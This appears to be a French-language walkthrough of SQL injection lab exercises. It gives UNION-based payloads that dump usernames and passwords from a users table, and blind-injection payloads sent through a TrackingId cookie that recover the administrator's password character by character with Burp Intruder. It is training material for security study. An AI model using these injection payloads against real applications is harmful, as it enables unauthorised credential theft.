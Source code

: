 ### SQL injection UNION attack, finding a column containing text

	[...]
	GET /filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--
	[...]
	GET /filter?category=Pets'+UNION+SELECT+NULL,'EHvVry',NULL--
    
### SQL injection UNION attack, retrieving data from other tables

	GET /filter?category=Pets'+UNION+SELECT+NULL,NULL--
	GET /filter?category=Pets'+UNION+SELECT+username,+password+FROM+users--

### SQL injection UNION attack, retrieving multiple values in a single column

    '+UNION+SELECT+NULL,'abc'--
    '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
    
### Blind SQL injection with conditional responses

Observer une requête classique vers l’accueil et remarquer le cookie : 

> Cookie: TrackingId=AsEECmnKwKq4S8Dz;session=4v8uojPB68SuAE0HldN5njc1sQTPnqIp

En injectant un payload de type **' AND '1'='1** on voit que le message d'accueil est le même.

En injectant un payload de type **' AND '1'='2** on voit que le message d'accueil n'est plus là.

Suite de payloads suivant ce même principe et permettant de déterminer qu'il y a bien un utilisateur "administrateur" et que son mot de passe fait 20 caractères : 

    TrackingId=3oaq5QBt7iUppPJX' AND (SELECT 'a' FROM users LIMIT 1)='a
    TrackingId=3oaq5QBt7iUppPJX' AND (SELECT 'a' FROM users WHERE username='administrator')='a
    TrackingId=3oaq5QBt7iUppPJX' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
    [...]
    TrackingId=3oaq5QBt7iUppPJX' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a

Payloads à utiliser sur Intruder pour deviner chaque caractère du mot de passe : 

    TrackingId=3oaq5QBt7iUppPJX' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
    [...]
    TrackingId=3oaq5QBt7iUppPJX' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='a

Penser à aller dans la partie "Grep - Match" d'Intruder et à y entrer le message "Welcome back" pour avoir un facteur de discrimination des différents résultats.

Bien utiliser le TrackingId donné par le site pour ne pas invalider la condition.


### Blind SQL injection with conditional errors
